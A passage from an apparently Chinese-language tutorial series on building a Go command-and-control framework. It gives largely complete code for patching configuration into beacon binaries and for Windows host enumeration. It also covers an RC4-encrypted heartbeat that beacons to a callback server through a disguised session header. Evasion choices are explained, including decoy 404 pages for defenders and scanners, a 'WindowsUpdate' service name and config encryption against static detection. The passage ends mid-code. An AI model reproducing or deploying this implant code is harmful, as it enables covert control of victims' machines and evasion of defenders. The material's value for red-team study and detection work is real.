       IsWorkingTime: generateConfig.IsWorkingTime,  
       StartTime:     generateConfig.StartTime,  
       EndTime:       generateConfig.EndTime,  
  
       // 从 listenerConfig 复制  
       HostBind:          listenerConfig.HostBind,  
       PortBind:          listenerConfig.PortBind,  
       CallbackAddresses: listenerConfig.CallbackAddresses,  
       SSL:               listenerConfig.SSL,  
       SSLCert:           listenerConfig.SSLCert,  
       SSLKey:            listenerConfig.SSLKey,  
       URI:               listenerConfig.URI,  
       HBHeader:          listenerConfig.HBHeader,  
       HBPrefix:          listenerConfig.HBPrefix,  
  
       UserAgent:       listenerConfig.UserAgent,  
       HostHeader:      listenerConfig.HostHeader,  
       RequestHeaders:  listenerConfig.RequestHeaders,  
       ResponseHeaders: listenerConfig.ResponseHeaders,  
       XForwardedFor:   listenerConfig.XForwardedFor,  
       PageError:       listenerConfig.PageError,  
       PagePayload:     listenerConfig.PagePayload,  
       ServerHeaders:   listenerConfig.ServerHeaders,  
       Protocol:        listenerConfig.Protocol,  
       EncryptKey:      []byte(listenerConfig.EncryptKey),  
    }  
  
    // 生成紧凑 JSON（无缩进）  
    return json.Marshal(merged)  
}  
  
func (b *BeaconHandler) BeaconBuild(profile []byte, beaconConfig request.GenerateConfig, listenerConfig request.ConfigDetail) ([]byte, string, error) {  
  
    var (  
       dir      string  
       filename string  
    )  
  
    protocol := listenerConfig.Protocol  
    switch protocol {  
    case "http":  
       dir = "static/http"  
    default:  
       return nil, "", errors.New("protocol unknown")  
    }  
  
    arch := beaconConfig.Arch  
    switch arch {  
    case "x86":  
       dir += "/x86"  
       filename = "stage86"  
    case "x64":  
       dir += "/x64"  
       filename = "stage64"  
    default:  
       return nil, "", errors.New("arch unknown")  
    }  
  
    format := beaconConfig.Format  
    switch format {  
    case "exe":  
       filename += ".exe"  
    case "dll":  
       filename += ".dll"  
    case "elf":  
       filename += ".elf"  
    case "shellcode":  
       filename += ".bin"  
    default:  
       return nil, "", errors.New("format unknown")  
    }  
  
    template, err := os.ReadFile(filepath.Join(dir, filename))  
    if err != nil {  
       return nil, "", err  
    }  
  
    marker := []byte("CONFIG_MARKER_2024")  
    idx := bytes.Index(template, marker)  
    if idx == -1 {  
       return nil, "", errors.New("marker not found")  
    }  
  
    // 确保不会溢出  
    profileSize := len(profile)  
    if profileSize > len(template)-(idx+4) {  
       return nil, "", errors.New("profile too large")  
    }  
  
    // 写入JSON数据长度  
    sizeBytes := make([]byte, 4)  
    binary.LittleEndian.PutUint32(sizeBytes, uint32(profileSize))  
    copy(template[idx:], sizeBytes)  
  
    // 写入JSON数据  
    start := idx + 4  
    copy(template[start:], profile)  
    err = os.WriteFile("static/product/"+filename, template, 0644)  
    if err != nil {  
       return nil, "", err  
    }  
  
    return template, filename, nil  
}
```

`模板文件.go` 的loadConfig方法会在模板文件中的全局placeholder字节切片中读取前4个字节作为接下来要反序列化json数据长度，而后面则是json数据。**注意**长度是小端序，当然也可以大端，与patch操作保持一致即可

为什么要增加4个字节的json数据长度呢？**理由**：在**反序列化阶段**只要碰到裸0x00字节，就会直接返回错误，4字节长度字段是为了能够正常地解析json数据，而不是到了末尾遇到00字节直接报错。

patch前后placeholder字节切片如下图



我承认这种patch方式很简陋，会浪费很多空间，会有意想不到的错误，而且 `BeaconGenerateConfig` 有多余的字段，还是那句话：**“这很方便”**

`模板文件.go`

```
package main  
  
import (  
    "encoding/binary"    
    "encoding/json"    
    "fmt")  
  
// CONFIG_MARKER_2024 + 5120 字节空洞  
var placeholder = [5120]byte{  
    'C', 'O', 'N', 'F', 'I', 'G', '_', 'M', 'A', 'R',  
    'K', 'E', 'R', '_', '2', '0', '2', '4',  
}  
  
// 运行时读取并反序列化  
func loadConfig() (map[string]any, error) {  
  
    // 检查  
    if len(placeholder) < 4 {  
       return nil, fmt.Errorf("buffer too small")  
    }  
  
    // 读取json长度  
    lengthBytes := placeholder[:4]  
    length := binary.LittleEndian.Uint32(lengthBytes)  
    if length == 0 {  
       return nil, fmt.Errorf("no config embedded")  
    }  
  
    // 检查  
    end := 4 + int(length)  
    if end > len(placeholder) {  
       return nil, fmt.Errorf("invalid length")  
    }  
  
    // 反序列化json  
    var cfg map[string]any  
    if err := json.Unmarshal(placeholder[4:end], &cfg); err != nil {  
       return nil, err  
    }  
    println(string(placeholder[4:end]))  
    return cfg, nil  
}  
  
func main() {  
    // demo 行为：打印配置  
    cfg, err := loadConfig()  
    if err != nil {  
       fmt.Println("load config failed:", err)  
       return  
    }  
    fmt.Printf("running with cfg=%s
", cfg)  
}
```

生成模板文件 `go build <模板文件名>.go` 并将其放置到服务器的 `static/http/x64/stage64.exe`

`utils/crypt/crypt.go`：按道理来说我们需要将内嵌在json数据用RC4加密，然后beacon先进行一次简单的解密获取内嵌的RC4密钥，然后再用解密后的密钥解密所有的配置信息，避免被静态检测出特征。

```
package crypt  
  
import (  
    "crypto/rc4"  
    "errors")  
  
func RC4Crypt(data []byte, key []byte) ([]byte, error) {  
    rc4crypt, errcrypt := rc4.NewCipher(key)  
    if errcrypt != nil {  
       return nil, errors.New("rc4 crypt error")  
    }  
    decryptData := make([]byte, len(data))  
    rc4crypt.XORKeyStream(decryptData, data)  
    return decryptData, nil  
}
```

## 3.3 接口测试

重启服务器

```
go run main.go
```

先启动监听器，然后在生成beacon





可以看到postman确实接收到服务器传来的base64编码后的beacon文件名和文件内容，正常情况下需要client自己解码并输出到 `*.exe、*.dll、*elf、*.bin` 文件中。本项目为了实现方便，将beacon输出到服务器的 `static/product` 目录中

用文件比较工具对比一下patch前后的文件，左边是模板文件，右边是patch后的文件。可以很明显的看到前4个字节是json序列化的字节长度，后面则是未加密的json序列化数据。


静态分析过后，我们运行生成后的产物，我在模板文件中是有两段输出的，第一段是直接将json序列化后的字节数据转换为string类型输出；第二段是json反序列化后输出（证明能反序列化）



# 四、Beacon上线服务器并完成注册

## 4.1 解密配置-Beacon端

配置中包含了beacon运行的必要信息，比如说beaconid，sessionkey、callback\_address、uri、sleep，是否开启ssl等关键信息。为了调试方便，可以约定硬编码上述字段的值。

正常来说是要先解密存储在placeholder字节切片中的数据再进行反序列化还原配置，为了方便，我们直接反序列化吧，方法是之前说过的 `LoadConfig`，还有为了调式方便，需要硬编码配置信息，具体看代码！

`profile/profile.go` 包含BeaconGenerateConfig结构体和LoadConfig方法

```
package profile

// CONFIG_MARKER_2024 + 5120 字节空洞
var placeholder = [5120]byte{
    'C', 'O', 'N', 'F', 'I', 'G', '_', 'M', 'A', 'R',
    'K', 'E', 'R', '_', '2', '0', '2', '4',
}

var BeaconProfile BeaconGenerateConfig

type BeaconGenerateConfig struct {
    // 来自 GenerateConfig
    Os            string `json:"os"`
    Arch          string `json:"arch"`
    Format        string `json:"format"`
    Sleep         int    `json:"sleep"`
    Jitter        int    `json:"jitter"`
    SvcName       string `json:"svcname"`
    IsKillDate    bool   `json:"is_killdate"`
    Killdate      string `json:"kill_date"`
    Killtime      string `json:"kill_time"`
    IsWorkingTime bool   `json:"is_workingtime"`
    StartTime     string `json:"start_time"`
    EndTime       string `json:"end_time"`

    // 来自 ConfigDetail（去掉 SSLCertPath 、 SSLKeyPath、PageError）
    HostBind          string            `json:"host_bind"`
    PortBind          int               `json:"port_bind"`
    CallbackAddresses []string          `json:"callback_addresses"`
    SSL               bool              `json:"ssl"`
    SSLCert           []byte            `json:"ssl_cert,omitempty"`
    SSLKey            []byte            `json:"ssl_key,omitempty"`
    HTTPMethod        string            `json:"http_method"`
    URI               string            `json:"uri"`
    HBHeader          string            `json:"hb_header"`
    HBPrefix          string            `json:"hb_prefix"`
    UserAgent         string            `json:"user_agent"`
    HostHeader        string            `json:"host_header"`
    RequestHeaders    map[string]string `json:"request_headers,omitempty"`
    ResponseHeaders   map[string]string `json:"response_headers,omitempty"`
    XForwardedFor     bool              `json:"x_forwarded_for"`
    PageError         string            `json:"page_error"`
    ServerHeaders     map[string]string `json:"server_headers,omitempty"`
    Protocol          string            `json:"protocol"`
    EncryptKey        []byte            `json:"encrypt_key,omitempty"`
}

// 运行时读取并反序列化

/*
func LoadConfig() (BeaconGenerateConfig, error) {

    // 检查
    if len(placeholder) < 4 {
        return BeaconGenerateConfig{}, fmt.Errorf("buffer too small")
    }

    // 读取json长度
    lengthBytes := placeholder[:4]
    length := binary.LittleEndian.Uint32(lengthBytes)
    if length == 0 {
        return BeaconGenerateConfig{}, fmt.Errorf("no config embedded")
    }

    // 检查
    end := 4 + int(length)
    if end > len(placeholder) {
        return BeaconGenerateConfig{}, fmt.Errorf("invalid length")
    }

    // 反序列化json
    var cfg BeaconGenerateConfig
    if err := json.Unmarshal(placeholder[4:end], &cfg); err != nil {
        return BeaconGenerateConfig{}, err
    }
    println(string(placeholder[4:end]))
    return cfg, nil
}
*/

func LoadConfig() (BeaconGenerateConfig, error) {
    cfg := BeaconGenerateConfig{
        // 来自 GenerateConfig
        Os:            "windows",
        Arch:          "x64",
        Format:        "exe",
        Sleep:         5,
        Jitter:        20,
        SvcName:       "WindowsUpdate",
        IsKillDate:    true,
        Killdate:      "2024-12-31",
        Killtime:      "23:59",
        IsWorkingTime: false,
        StartTime:     "09:00",
        EndTime:       "18:00",

        // 来自 ConfigDetail
        HostBind:          "0.0.0.0",
        PortBind:          443,
        CallbackAddresses: []string{"http://192.168.1.1:9000"},
        SSL:               true,
        SSLCert:           []byte{}, // 可放真实证书
        SSLKey:            []byte{}, // 可放真实私钥
        URI:               "index.php",
        HBHeader:          "X-Session-Id",
        HBPrefix:          "SESSIONID=",
        UserAgent:         "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
        HostHeader:        "c2.example.com",
        RequestHeaders: map[string]string{
            "Accept": "application/json",
        },
        ResponseHeaders: map[string]string{
            "Content-Type": "application/json",
        },
        XForwardedFor: false,
        PageError:     "<html><body>404 Not Found</body></html>", // 这里要注意
        ServerHeaders: map[string]string{
            "Server": "nginx/1.18.0",
        },
        Protocol:   "https",
        EncryptKey: []byte("01234567890123456789"), // RC4/AES 密钥示例
    }
    return cfg, nil
}

```

## 4.2 收集系统信息生成心跳包-Beacon端

在典型C2框架的实现中，Beacon在解密并解析其运行时配置后，会立即执行一次全面的主机枚举，收集系统的上的一些信息提供给操作人员使用，收集的信息通常包含**beaconid、进程名、进程id、线程id、系统架构、主机名、当前用户名、ACP**等等基础信息。

值得说明的是全面的信息收集只会执行一次，上述信息经序列化后，被封装为初始**心跳包**（heartbeat）的数据，此后，Beacon进入周期性心跳阶段。心跳并非重新拉取完整载荷，而是以固定格式的轻量请求维持长轮询通道，用于：

1. 保活（keep-alive）；
2. 轮询C2服务器是否存在待执行任务（task queue）。

心跳包通常用监听器中生成的密钥进行加密，其会话密钥由**监听器（listener）在生成阶段随机派生并嵌入 Beacon 配置**，加密完成后再进行base64编码然后放置到请求头中，其键名可由操作员自定义，默认为“X-Session-ID”，然后还有前缀“SESSIONID=”，能够有效的迷惑防御者。

在构造心跳包时有必要说一下TLV协议，TLV（Tag-Length-Value）是一种**通用的二进制数据编码格式**，听名字很高大上的样子，其实说白了就是**自定义通信结构体**，其中T是Tag，表示数据的类型或业务含义；L是Length，表示可变数据的长度（比如说byteArray，string），V是Value，可为原始数据（如字符串、整数）。

在本项目中，心跳包、任务包和结果包属于TLV协议的范畴，但是又于它的定义有些区别，主要是

1. **Tag字段用不到**：因为C2框架主要是在一个小圈子中使用，server和client，server和beacon，约定好什么功能，哪个时间接收到相应的包，这样也就不需要标识这个包的类型了
2. **Length只有byteArray和string类型用到**：server和client，server和beacon字段事先约定好打包顺序和解包顺序，对于不变字长的数据，直接解读（如byte、int16、int32），对于可变字长的数据，需要用长度来表示接下来要解读的数据长度。

|  |  |  |
| --- | --- | --- |
| 字段名 | 类型 / 字节数 | 说明 |
| BeaconID | uint32 / 4 B | 随机生成的Beacon会话ID（网络字节序/小端均可，需与C2约定）。 |
| BeaconName | string | **变长字段**；先写 4 B Length，再些数据 |
| Sleep | int32 / 4 B | 心跳间隔秒数（>0）。 |
| Jitter | int32 / 4 B | 抖动百分比（0-100），目前未使用，可填0。 |
| KillDate | int32 / 4 B | 到期自毁；未使用时填0。 |
| WorkingTime | int32 / 4 B | 每日可工作时段（分钟数）；未使用时填0。 |
| ACP | int16 / 2 B | ANSI 代码页（如936）。 |
| OemCP | int16 / 2 B | OEM 代码页（如936）。 |
| GmtOffset | int8 / 1 B | 本机相对 UTC 的分钟偏移 |
| Pid | int16 / 2 B | 当前进程PID。 |
| Tid | int16 / 2 B | 执行线程TID。 |
| BuildNumber | int32 / 4 B | Windows Build Number（如19045）。 |
| MajorVer | int8 / 1 B | 主版本号（如10 →10）。 |
| MinorVer | int8 / 1 B | 次版本号（如0）。 |
| InternalIP | uint32 / 4 B | 本地 IPv4 转uint32（小端）。 |
| Flag | int8 / 1 B | 位标志，未使用 |
| SessionKey | ]byte | **变长字段**；对称会话密钥；先写 4 B Length，再写密钥字节。 |
| Domain | ]byte | **变长字段**；域名字符串；先写 4 B Length，再写字节串。 |
| Computer | ]byte | **变长字段**；主机名字符串；同上。 |
| Username | ]byte | **变长字段**；当前用户名字符串；同上。 |
| Process | ]byte | **变长字段**；进程名字符串；同上。 |

⚠**注意**：一共有两把密钥：

1. 第一把密钥**在配置里**，server用来**加密配置**和**解密心跳包**的数据，beacon用来**解密配置**和**加密心跳包**的数据
2. 第二把密钥**在心跳包**里，server用来**加密任务包**和**解密结果包**，beacon用来**解密任务包**和**加密结果包**

`sysinfo/sysinfo.go`：收集系统信息的工具函数

```
package sysinfo

import (
    "errors"
    "fmt"
    "net"
    "os"
    "os/user"
    "path/filepath"
    "runtime"
    "strings"
    "syscall"
    "time"
    "unsafe"
)

var Kernel32 = syscall.NewLazyDLL("Kernel32.dll")

// 获取本机第一个非回环IPv4地址
func GetInternalIp() string {
    addrs, err := net.InterfaceAddrs()
    if err != nil {
        return ""
    }
    for _, addr := range addrs {
        if ipnet, ok := addr.(*net.IPNet); ok && !ipnet.IP.IsLoopback() && ipnet.IP.To4() != nil {
            return ipnet.IP.String()
        }
    }
    return ""
}

// 获取域名（Windows下为WORKGROUP或域名，Linux下为主机名）
func GetDomain() string {
    if runtime.GOOS == "windows" {
        // Windows下尝试获取USERDOMAIN
        return os.Getenv("USERDOMAIN")
    }
    // Linux下用主机名
    name, _ := os.Hostname()
    return name
}

func GetCodePageANSI() (int32, error) {
    fnGetACP := Kernel32.NewProc("GetACP")
    if fnGetACP.Find() != nil {
        return 0, errors.New("not found GetACP")
    }
    acp, _, _ := fnGetACP.Call()
    return int32(acp), nil
}

// 获取计算机名
func GetComputerName() string {
    name, _ := os.Hostname()
    return name
}

// 获取用户名
func GetUsername() string {
    if u, err := user.Current(); err == nil {
        // Windows下user.Current().Username可能是"DOMAIN\User"
        parts := strings.Split(u.Username, "\")
        return parts[len(parts)-1]
    }
    return ""
}

// 获取当前进程名
func GetProcessName() string {
    return filepath.Base(os.Args[0])
}

// 获取当前进程PID
func GetPid() int16 {
    return int16(os.Getpid())
}

func GetTID() int16 {
    GetCurrentThreadId := Kernel32.NewProc("GetCurrentThreadId")
    tid, _, _ := GetCurrentThreadId.Call()
    return int16(tid)
}

func GetCodePageOEM() (int32, error) {
    procGetOEMCP := Kernel32.NewProc("GetOEMCP")

    if err := procGetOEMCP.Find(); err != nil {
        return 0, errors.New("not found GetOEMCP")
    }

    oemacp, _, _ := procGetOEMCP.Call()
    return int32(oemacp), nil
}

func GetGmtOffset() int32 {
    _, offset := time.Now().Zone()
    // offset 是相对于 UTC 的秒数
    // Windows Bias 是分钟，且正值代表西区（负时区），Go 的 offset 正值代表东区（正时区）
    // 所以这里直接用 offset/3600 得到小时数
    return int32(offset / 3600)
}

type OSVERSIONINFOEXW struct {
    dwOSVersionInfoSize uint32
    dwMajorVersion      uint32
    dwMinorVersion      uint32
    dwBuildNumber       uint32
    dwPlatformId        uint32
    szCSDVersion        [128]uint16
    wServicePackMajor   uint16
    wServicePackMinor   uint16
    wSuiteMask          uint16
    wProductType        byte
    wReserved           byte
}

func getOSVersionInfo() (*OSVERSIONINFOEXW, error) {
    ntdll := syscall.NewLazyDLL("ntdll.dll")
    rtlGetVersion := ntdll.NewProc("RtlGetVersion")

    var osvi OSVERSIONINFOEXW
    osvi.dwOSVersionInfoSize = uint32(unsafe.Sizeof(osvi))

    ret, _, _ := rtlGetVersion.Call(uintptr(unsafe.Pointer(&osvi)))
    if ret != 0 {
        return nil, fmt.Errorf("RtlGetVersion failed: %d", ret)
    }
    return &osvi, nil
}

func GetWindowsMajorVersion() (int8, error) {
    osvi, err := getOSVersionInfo()
    if err != nil {
        return 0, err
    }
    return int8(osvi.dwMajorVersion), nil
}

func GetWindowsMinorVersion() (int8, error) {
    osvi, err := getOSVersionInfo()
    if err != nil {
        return 0, err
    }
    return int8(osvi.dwMinorVersion), nil
}

func GetWindowsBuildNumber() (int32, error) {
    osvi, err := getOSVersionInfo()
    if err != nil {
        return 0, err
    }
    return int32(osvi.dwBuildNumber), nil
}

```

收集完系统信息后就要打包成心跳包，这里就有必要说一下打包器了，还有除了**byteArray和String类型的数据**部分之外，其余数据用**大端序**打包，什么是大端就不用我多少说了！

因为我们的Beacon是用Go语言写，所以就用一下它的一些特性，比如说**类型断言**，可以动态的获取数据类型。

1. 首先我们需要将所有需要打包的数据放入到 `[]interface{}` 切片中，这个数组可以装入任意类型的数据，`interface{}` 可以换成 `any`，效果是一样的，“协议长什么样”完全交给了**顺序**和**值本身**
2. ⚠**特别注意**：`[]byte` 类型需要自己打包长度，因为有些数据需要进行二次打包，如果在PackArray里打包长度会多次一个长度字段，且这个字段是多余的，不知道各位能否get到我的意思，一个实际的例子在下文的`5.1 任务创建`中会有体现
3. 从切片中取出数据，然后用go的**类型断言**，获取数据类型，根据类型选择相应的打包方式

比如说我要打包如下的数据

```
{int8(1),int16(0x12),int32(0x12345678),"hello oneday!",[]byte("oneday")}
```

打包后的数据如下

```
01              // int8(1)
00 12           // int16(0x12)
12 34 56 78     // int32(0x12345678)
00 00 00 0E     // 字符串长度（14 字节，含末尾 \x00）
68 65 6C 6C 6F 20 6F 6E 65 64 61 79 21 00   // hello oneday!
00 00 00 06     // []byte 长度（6 字节）
6F 6E 65 64 61 79     // oneday
```



**更通用的方式**：就是自己根据值选择打包方式，比如说addByte、addShort、addInt、addString，addByteArray等，这也是大多数C2使用的方法。比如说havoc就是用这种方式打包：[Havoc/teamserver/pkg/common/packer/packer.go at main · HavocFramework/Havoc](https://github.com/HavocFramework/Havoc/blob/main/teamserver/pkg/common/packer/packer.go)



`utils/packet/packer.go`：打包器的代码封装在这里了

```
package packet

import (
    "bytes"
    "encoding/binary"
    "errors"
    "strings"
)

func PackBytes(b []byte) []byte {
    buf := new(bytes.Buffer)
    binary.Write(buf, binary.BigEndian, uint32(len(b)))
    buf.Write(b)
    return buf.Bytes()
}

func PackArray(array []any) ([]byte, error) {
    var packData []byte

    for i := range array {
        switch v := array[i].(type) {

        case []byte:
            packData = append(packData, v...)
            break

        case string:
            size := make([]byte, 4)
            val := v
            if len(val) != 0 {
                if !strings.HasSuffix(val, "\x00") {
                    val += "\x00"
                }
            }
            binary.BigEndian.PutUint32(size, uint32(len(val)))
            packData = append(packData, size...)
            packData = append(packData, []byte(val)...)
            break

        case int8:
            packData = append(packData, byte(v))
            break

        case int16:
            num := make([]byte, 2)
            binary.BigEndian.PutUint16(num, uint16(v))
            packData = append(packData, num...)
            break

        case int32:
            num := make([]byte, 4)
            binary.BigEndian.PutUint32(num, uint32(v))
            packData = append(packData, num...)
            break

        case int64:
            num := make([]byte, 8)
            binary.BigEndian.PutUint64(num, uint64(v))
            packData = append(packData, num...)
            break

        case bool:
            var bt byte = 0
            if v {
                bt = 1
            }
            packData = append(packData, bt)
            break

        default:
            return nil, errors.New("PackArray unknown type")
        }
    }
    return packData, nil
}
```

`sysinfo/heartbeat.go`：包含心跳包HeartBeat结构体、InitHeartBeat和PackHeartBeat方法

```
package sysinfo

import (
    "Beacon/profile"
    "Beacon/utils/packet"
    "encoding/binary"
    "fmt"
)

type HeartBeat struct {
    BeaconID    uint32 // rand id
    BeaconName  string
    Sleep       int32 // 秒
    Jitter      int32 // 没有用到
    KillDate    int32 // 没有用到
    WorkingTime int32 // 没有用到
    ACP         int32 // ANSI code page
    OemCP       int32 // OEM code page
    GmtOffset   int32 // 分钟
    Pid         int16
    Tid         int16
    BuildNumber int32
    MajorVer    int8
    MinorVer    int8
    InternalIP  uint32 // IPv4 转 uint32
    Flag        int8   // 0b00000101

    SessionKey []byte // 加解密任务包和结果包

    Domain   []byte
    Computer []byte
    Username []byte
    Process  []byte
}

func ip2int(ip string) uint32 {
    var b [4]byte
    fmt.Sscanf(ip, "%d.%d.%d.%d", &b[0], &b[1], &b[2], &b[3])
    return binary.BigEndian.Uint32(b[:])
}

func InitHeartBeat() HeartBeat {
    heartBeat := HeartBeat{}
    //heartBeat.BeaconID = rand.Uint32()
    heartBeat.BeaconID = 0x55667788
    heartBeat.BeaconName = "Beacon"
    heartBeat.Sleep = int32(profile.BeaconProfile.Sleep)
    heartBeat.Jitter = int32(profile.BeaconProfile.Jitter)

    //heartBeat.KillDate = profile.BeaconProfile.
    heartBeat.KillDate = int32(10)
    heartBeat.WorkingTime = int32(0)
    acp, _ := GetCodePageANSI()
    heartBeat.ACP = acp
    oemcp, _ := GetCodePageOEM()
    heartBeat.OemCP = oemcp
    heartBeat.GmtOffset = GetGmtOffset()
    heartBeat.Pid = GetPid()
    heartBeat.Tid = GetTID()
    buildNumber, _ := GetWindowsBuildNumber()
    majorVersion, _ := GetWindowsMajorVersion()
    minorVersion, _ := GetWindowsMinorVersion()
    heartBeat.BuildNumber = buildNumber
    heartBeat.MinorVer = minorVersion
    heartBeat.MajorVer = majorVersion
    heartBeat.InternalIP = ip2int(GetInternalIp())
    heartBeat.Flag = int8(0b00000111) // beacon.arch = x64,system.arch = x64,Elevated = true(管理员权限)
    heartBeat.SessionKey = []byte("01234567890123456789")
    heartBeat.Domain = []byte(GetDomain())
    heartBeat.Computer = []byte(GetComputerName())
    heartBeat.Username = []byte(GetUsername())
    heartBeat.Process = []byte(GetProcessName())

    return heartBeat
}

func PackHeartBeat(heartBeat HeartBeat) []byte {
    // 按顺序组织字段
    fields := []interface{}{
        int32(heartBeat.BeaconID),              // int32
        heartBeat.BeaconName,                   //string
        heartBeat.Sleep,                        // int32
        heartBeat.Jitter,                       // int32
        heartBeat.KillDate,                     // int32
        heartBeat.WorkingTime,                  // int32
        heartBeat.ACP,                          // int16
        heartBeat.OemCP,                        // int16
        heartBeat.GmtOffset,                    // int8
        heartBeat.Pid,                          // int16
        heartBeat.Tid,                          // int16
        heartBeat.BuildNumber,                  // int32
        heartBeat.MajorVer,                     // int32
        heartBeat.MinorVer,                     // int32
        int32(heartBeat.InternalIP),            // int32
        heartBeat.Flag,                         // int8
        packet.PackBytes(heartBeat.SessionKey), // []byte
        packet.PackBytes(heartBeat.Domain),     // []byte
        packet.PackBytes(heartBeat.Computer),   // []byte
        packet.PackBytes(heartBeat.Username),   // []byte
        packet.PackBytes(heartBeat.Process),    // []byte
    }

    // 调用统一的打包器
    data, err := packet.PackArray(fields)
    if err != nil {
        fmt.Println("error:", err)
        return nil
    }
    return data
}

```

`utils/common/http.go` 接下来就是把心跳数据RC4加密（第一把密钥）→Base64URL编码→塞进自定义HTTP头→发GET请求→把返回体用 `sessionKey` 密钥（第二把密钥）RC4 解密

```
package common

import (
    "Beacon/profile"
    "bytes"
    "encoding/base64"
    "errors"
    "fmt"
    "io"
    "log"
    "net/http"
)

func HttpGet(metaData []byte, sessionKey []byte) ([]byte, error) {

    url := profile.BeaconProfile.CallbackAddresses[0] + "/" + profile.BeaconProfile.URI

    // ====== RC4加密 ======
    rc4_key := profile.BeaconProfile.EncryptKey
    encryptedMetaData, err := RC4Crypt(metaData, rc4_key)
    if err != nil {
        return nil, err
    }
    // ====== base64url 编码 ======
    metaDataB64 := base64.RawURLEncoding.EncodeToString(encryptedMetaData)

    // ====== 设置到请求头 ======
    cookieValue := profile.BeaconProfile.HBPrefix + metaDataB64

    req, err := http.NewRequest("GET", url, nil)
    if err != nil {
        fmt.Println("Request error:", err)
        return nil, err
    }
    req.Header.Set(profile.BeaconProfile.HBHeader, cookieValue)
    req.Header.Set("User-Agent", profile.BeaconProfile.UserAgent)

    // ====== 发送HTTP GET请求 ======
    client := &http.Client{}
    resp, err := client.Do(req)
    if err != nil {
        fmt.Println("HTTP error:", err)
        return nil, err
    }
    defer resp.Body.Close()
    respBytes, _ := io.ReadAll(resp.Body)

    if resp.StatusCode != 200 {
        fmt.Println("Status:", resp.StatusCode)
        fmt.Println("Decrypted Response:", string(respBytes))
        return nil, errors.New("http response error:")
    }

    // 用 SessionKey RC4 解密
    decrypted, err := RC4Crypt(respBytes, sessionKey)
    if err != nil {
        log.Fatalf("rc4 decrypt error:%v", err)
    }

    fmt.Println("Status:", resp.StatusCode)
    fmt.Println("Decrypted Response:", string(decrypted))
    return decrypted, nil
}
```

`utils/common/crypt.go`：目前只有RC4加密/解密

```
package common

import (
    "crypto/rc4"
    "errors"
)

func RC4Crypt(data []byte, key []byte) ([]byte, error) {
    rc4crypt, encrypt := rc4.NewCipher(key)
    if encrypt != nil {
        return nil, errors.New("rc4 crypt error")
    }
    decryptData := make([]byte, len(data))
    rc4crypt.XORKeyStream(decryptData, data)
    return decryptData, nil
}

```

`main.go` ok终于到main函数了，先不着急运行，等到 `4.4 测试` 的时候启动！

```
package main

import (
    "Beacon/profile"
    "Beacon/sysinfo"
    "Beacon/utils/common"
    "fmt"
    "time"
)

var heartBeat sysinfo.HeartBeat

func main() {
    var err error
    profile.BeaconProfile, err = profile.LoadConfig()
    if err != nil {
        panic(err)
    }
    fmt.Printf("%+v
", profile.BeaconProfile)

    heartBeat = sysinfo.InitHeartBeat()
    fmt.Printf("%+v
", heartBeat)

    metaData := sysinfo.PackHeartBeat(heartBeat)
    for {
        time.Sleep(time.Duration(profile.BeaconProfile.Sleep) * time.Second)
        AssemblyBuff, err := common.HttpGet(metaData, heartBeat.SessionKey)
        println(string(AssemblyBuff))
        if err == nil {
        }
    }

}

```

## 4.3 注册-server端

还记得我们在前面留下的**TODO**吗？我们processRequest和processResponse还没实现呢，在这里要实现processRequest，然后补充validate和parseBeat方法，这两个方法processRequest和processResponse都会用到，且听我解释

1. `processRequest`：是用来处理Beacon通过**GET**方式来拉取任务的请求，首先调用 `validate` 请求鉴权，然后调用parseBeat获取心跳数据为注册Beacon做准备，根据BeaconId去查找是Beacon是否存在，如果不存在则注册。具体细节看代码吧。
2. `validate`：轻量的**请求鉴权**，防止非预期的访问者（如蓝队、爬虫、扫描器）误打误撞访问到我们的C2 Listener
3. `parseBeat`：从自定义请求头中获取BeaconId和剩余心跳包数据

当然为了防止数据被修改，还可以加上HMAC验证数据的完整性，这里不过多介绍。

`handler/listener/http_listener.go`：补充processRequest（不完整的）、validate、parseBeat方法

```
func (handler *HTTP) parseBeat(ctx *gin.Context) (string, []byte, error) {  
  
    // 1. 解析 Cookie 里的 SESSIONID    
    cookie := ctx.Request.Header.Get(handler.Config.HBHeader)  
    if !strings.HasPrefix(cookie, handler.Config.HBPrefix) {  
       return "", nil, errors.New("no SESSIONID in cookie")  
    }  
    beatB64 := strings.TrimPrefix(cookie, handler.Config.HBPrefix)  
  
    // 2. base64url 解码  
    beaconInfoCrypt, err := base64.RawURLEncoding.DecodeString(beatB64)  
    if err != nil || len(beaconInfoCrypt) < 8 {  
       return "", nil, errors.New("failed to decode beat")  
    }  
  
    // 3. RC4 解密  
    rc4crypt, err := rc4.NewCipher([]byte(handler.Config.EncryptKey))  
    if err != nil {  
       return "", nil, errors.New("rc4 decrypt error")  
    }  
    beaconInfo := make([]byte, len(beaconInfoCrypt))  
    rc4crypt.XORKeyStream(beaconInfo, beaconInfoCrypt)  
  
    // 4. 解析 beaconType 和 beaconId    
    if len(beaconInfo) < 8 {  
       return "", nil, errors.New("beat too short")  
    }  
    beaconId := binary.BigEndian.Uint32(beaconInfo[:4])  
    restbeaconInfo := beaconInfo[4:]  
  
    return fmt.Sprintf("%08x", beaconId), restbeaconInfo, nil  
}  
  
func (handler *HTTP) validate(ctx *gin.Context) error {  
    // 1. 校验 URI    
    u, err := url.Parse(ctx.Request.RequestURI)  
    if err != nil || handler.Config.URI != u.Path {  
       handler.pageError(ctx)  
       return err  
    }  
  
    // 2. 校验 HostHeader    
    if handler.Config.HostHeader != "" && handler.Config.HostHeader != ctx.Request.Host {  
       handler.pageError(ctx)  
       return err  
    }  
  
    // 3. 校验 UserAgent    
    if handler.Config.UserAgent != ctx.Request.UserAgent() {  
       handler.pageError(ctx)  
       return err  
    }  
  
    return nil  
}  
  
func (handler *HTTP) processRequest(ctx *gin.Context) {  
  
    // 校验请求合法性  
    err := handler.validate(ctx)  
    if err != nil {  
       return  
    }  
  
    // 获取外部 IP    
    externalIP := strings.Split(ctx.Request.RemoteAddr, ":")[0]  
    if handler.Config.XForwardedFor {  
       xff := ctx.Request.Header.Get("X-Forwarded-For")  
       if xff != "" {  
          externalIP = xff  
       }  
    }  
  
    beaconId, beat, err := handler.parseBeat(ctx)  
    if err != nil {  
       handler.pageError(ctx)  
       return  
    }  
  
    if !listenerHTTP.ts.BeaconIsExists(beaconId) {  
       if err := listenerHTTP.ts.BeaconCreate(beaconId, beat, handler.Name, externalIP, true); err != nil {  
          handler.pageError(ctx)  
          return  
       }  
    }  
  
    ctx.AbortWithStatus(http.StatusOK)  
    return  
}
```

`handler/listener/http_type.go`：在TeamServer处定义BeaconIsExists和BeaconCreate方法

```
type TeamServer interface {  
    BeaconIsExists(beaconId string) bool  
